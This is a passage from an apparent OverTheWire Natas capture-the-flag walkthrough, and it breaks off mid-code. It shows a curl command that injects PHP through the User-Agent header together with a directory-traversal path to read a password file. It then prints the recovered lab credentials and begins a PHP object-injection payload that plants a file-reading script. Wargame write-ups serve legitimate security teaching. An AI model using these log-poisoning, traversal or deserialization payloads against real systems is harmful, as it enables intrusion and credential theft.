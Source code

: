 Now we want to write the password in the log file. The log records `HTTP_USER_AGENT`, So we can inject some codes in it.

```
$ curl -u natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c http://natas25.natas.labs.overthewire.org/ -b 'PHPSESSID=v1347323qckbp3kbcj4f13tmq2' -H 'User-Agent: <?php echo file_get_contents("/etc/natas_webpass/natas26") ?>' -F 'lang=..././..././..././..././..././tmp/natas25_v1347323qckbp3kbcj4f13tmq2.log'
```

Then read the log file again.

```
[11.08.2016 07::47:57] oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T "Directory traversal attempt! fixing request."
```

# 27. Level 26

The level is about [php object injection](https://www.owasp.org/index.php/PHP_Object_Injection).

```php
<?php
// http://natas26.natas.labs.overthewire.org/index-source.html
function storeData(){
    $new_object=array();

    if(array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
        array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
        $new_object["x1"]=$_GET["x1"];
        $new_object["y1"]=$_GET["y1"];
        $new_object["x2"]=$_GET["x2"];
        $new_object["y2"]=$_GET["y2"];
    }

    if (array_key_exists("drawing", $_COOKIE)){
        $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
    }
    else{
        // create new array
        $drawing=array();
    }

    $drawing[]=$new_object;
    setcookie("drawing",base64_encode(serialize($drawing)));
}
?>
```

This level allows me to inject codes via cookie.

Let's create a new object.

```php
<?php
class Logger{
    private $logFile;
    private $initMsg;
    private $exitMsg;
    function __construct($file){
        $this->initMsg="";
        $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27') ?>";
        $this->logFile = "img/ving.php";
    }
    function log($msg){
        ;
    }
    function __destruct(){
```